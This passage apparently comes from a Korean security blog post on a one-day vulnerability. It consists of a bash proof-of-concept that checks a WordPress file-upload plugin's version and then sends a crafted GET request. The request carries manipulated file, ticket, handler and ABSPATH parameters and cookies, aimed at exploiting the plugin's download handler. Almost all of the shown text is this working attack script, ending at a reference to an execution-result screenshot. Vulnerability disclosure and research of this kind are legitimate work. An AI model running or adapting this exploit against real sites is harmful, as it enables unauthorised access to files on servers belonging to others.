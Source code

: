 ```bash
if dpkg --compare-versions "${VERSION}" le "${VULNERABLE_VERSION}"; then
    printf "${RED}Plugin version ${VERSION} is vulnerable. Proceeding with exploitation...\n${NC}"
else
    printf "${YELLOw}Plugin version ${VERSION} is not vulnerable. Exiting.\n${NC}"
    exit 0
fi

# Exploitation
printf "${BLUE}Attempting to exploit the vulnerability...${NC}\n"
EXPLOIT_URL="http://${HOST}${PLUGIN_PATH}${EXPLOIT_PATH}?file=${FILE_CODE}&ticket=${TICKET}&handler=${HANDLER}&session_legacy=${SESSION_LEGACY}&dboption_base=${DBOPTION_BASE}&dboption_useold=${DBOPTION_USEOLD}&wfu_cookie=wp_wpfileupload_939a4dc9e3d96a97c2dd1bdcbeab52ce"

curl -X GET "${EXPLOIT_URL}" \
  -H "Host: ${HOST}" \
  -H "Upgrade-Insecure-Requests: 1" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36" \
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9" \
  -H "Accept-Encoding: gzip, deflate" \
  -H "Accept-Language: zh-CN,zh;q=0.9" \
  -H "Connection: close" \
  -H "Cookie: wp_wpfileupload_939a4dc9e3d96a97c2dd1bdcbeab52ce=${COOKIE_VALUE}; wfu_storage_${FILE_CODE}=${STORAGE_VALUE}; wfu_download_ticket_${TICKET}=${TIMESTAMP}; wfu_ABSPATH=${ABSPATH};"
```

## POC 실행 결과

![image.png](/assets/posts/one-day/2025-02-04/image-005.png)
